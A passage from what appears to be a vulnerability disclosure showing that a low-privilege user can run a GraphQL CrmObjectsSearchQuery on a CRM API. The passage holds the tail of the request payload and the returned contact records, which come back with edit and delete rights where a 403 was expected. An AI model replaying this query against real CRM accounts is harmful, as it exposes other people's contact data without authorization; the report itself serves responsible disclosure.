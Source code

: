 ```bash
    "query": "query CrmObjectsSearchQuery($filterGroups: [FilterGroup!]!, $sorts: [Sort!], $query: String, $objectTypeId: String!, $properties: [String!]!, $count: Int, $offset: Int, $timeZoneId: String) {\\n  crmObjectsSearch(\\n    filterGroups: $filterGroups\\n    sorts: $sorts\\n    query: $query\\n    type: $objectTypeId\\n    count: $count\\n    offset: $offset\\n    timeZoneId: $timeZoneId\\n  ) {\\n    total\\n    offset\\n    results {\\n      ...CrmObjectsSearchObjectFragment\\n      __typename\\n    }\\n    validationErrors {\\n      __typename\\n      ... on GenericValidationError {\\n        message\\n        __typename\\n      }\\n    }\\n    __typename\\n  }\\n}\\n\\nfragment CrmObjectsSearchObjectFragment on CrmObject {\\n  id\\n  objectId: id\\n  properties(names: $properties) {\\n    id\\n    name\\n    sourceId\\n    value\\n    __typename\\n  }\\n  userPermissions {\\n    currentUserCanEdit\\n    currentUserCanDelete\\n    __typename\\n  }\\n  __typename\\n}"
  }'
```

### Expected Result

**Expected:** HTTP 403 Forbidden or authorization error
- LOW-PRIV user should NOT be able to execute CrmObjectsSearchQuery
- Should only be able to execute FetchContactSuggestions (single email lookup)

### Actual Result

**Actual:** HTTP 200 OK with complete contact data

```json
{
  "extensions": null,
  "data": {
    "crmObjectsSearch": {
      "total": 3,
      "offset": 3,
      "results": [
        {
          "id": 295353254646,
          "objectId": 295353254646,
          "properties": [
            {"name": "email", "value": "fraiser@980am.com"},
            {"name": "firstname", "value": "Fraiser"},
            {"name": "lastname", "value": "What?"},
            {"name": "hubspot_owner_id", "value": "159548558"},
            {"name": "lifecyclestage", "value": "lead"},
            {"name": "phone", "value": null},
            {"name": "company", "value": null}
            // ... all 31 properties returned
          ],
          "userPermissions": {
            "currentUserCanEdit": true,
            "currentUserCanDelete": true
          }
        }
        // ... 2 more complete contact records
      ]
    }
  }
}
```

---